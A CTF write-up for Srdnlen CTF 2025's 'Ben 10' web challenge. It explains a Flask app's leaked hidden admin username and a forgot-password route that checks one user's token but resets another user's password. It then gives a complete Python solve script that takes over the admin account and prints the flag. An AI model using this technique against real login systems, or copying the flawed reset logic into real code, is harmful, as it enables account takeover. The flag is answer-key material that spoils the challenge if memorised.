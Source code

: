 ```yaml
---
date: 2025-01-20
description: Insecure password reset allows changing admin password
platform: Srdnlen CTF 2025
categories: Web
tags:
  - broken-access-control
  - insecure-design
  - code-review
  - flask
duration:
---
```


# Ben 10 
Ben Tennyson's Omnitrix holds a mysterious and powerful form called Materia Grigia — a creature that only those with the sharpest minds can access. It's hidden deep within the system, waiting for someone clever enough to unlock it. Only the smartest can access what’s truly hidden.

Can you outsmart the system and reveal the flag?

# Vulnerability 
## Information disclosure 
home.html - admin_username being passed
```html
    <!-- secret admin username -->
    <div style="display:none;" id="admin_data">{{ admin_username }}</div>
```
## Insecure forgot password 
```python
@app.route('/forgot_password', methods=['GET', 'POST'])
def forgot_password():
	# ... 
	username = username.split('^')[1]
	# gets reset_token for "non admin" even if admin user is specified with ^ 
	token = get_reset_token_for_user(username)
	if token and token[0] == reset_token:
		# but still updates the "admin" password from the "non admin" token
		update_password(request.form['username'], new_password)
		flash(f"Password reset successfully.", "success")
		return redirect(url_for('login'))
	else:
		flash("Invalid reset token for user.", "error")
```
> Incorrectly validates token for a regular user even if admin is specified. `admin^username^randomhex`  > will check the token for `username` but the password for admin will be one updated.


# Attack chain 
1. Register user > 1 
2. Access secret user in `/home id=admin_data`  > 2
3. Reset password (post)
 - username: (1) 
 - get strong text (token) > 3
4. Forgot password (post) 
 -  username: (2) `admin^(1)^ad3c8684d9`
 -  reset_token: (3) 
 - username updated  
5. Login as admin (2) 
6. Access. `/image/ben10` > flag

## solve.py
```python
import requests
from bs4 import BeautifulSoup


#url="http://127.0.0.1:1337"
url="http://ben10.challs.srdnlen.it:8080"

username="aadmin"
password="password"

data = {
	"username": username,
	"password" :password	
}
def register(url):
	url = url+"/register"
	resp = requests.post(url,data=data)
	if "Registration successful" in resp.text:
		print("Registered user")

def login(url, data, get_admin=True):
	s =	requests.Session()
	url = url+"/login"
	resp = s.post(url,data=data)	
	# print(resp.text)
	soup = BeautifulSoup(resp.text, 'html.parser')
	if get_admin:
		return soup.find(id="admin_data").get_text()
	else:
		return s 

# get token  
def reset_password(url,data):
	url=url+"/reset_password"
	resp = requests.post(url, data=data)	
	#print(resp.text)
	soup = BeautifulSoup(resp.text, 'html.parser')
	
	return soup.find('strong').get_text()

def forgot_password(url,admin_username, reset_token):
	url=url+"/forgot_password"
	data = {
		"username":admin_username,
		"reset_token": reset_token,
		"new_password": "password",
		"confirm_password": "password"
	}	
	resp = requests.post(url,data=data)	
	if "Password reset successfully" in resp.text:
		print(f"{admin_username} password reset to password")


def get_flag(s, url):
	url=url+"/image/ben10"
	resp = s.get(url)	
	soup = BeautifulSoup(resp.text, 'html.parser')
	return soup.find(class_="flag-container")

register(url)
print("username:", data['username'])
admin_username = login(url,data)
print("admin_username:", admin_username)
reset_token = reset_password(url,data)

print("reset_token:", reset_token)
forgot_password(url, admin_username,reset_token)

data["username"] = admin_username
s= login(url, data, get_admin=False)
flag = get_flag(s, url)

print(flag)
# srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}
```
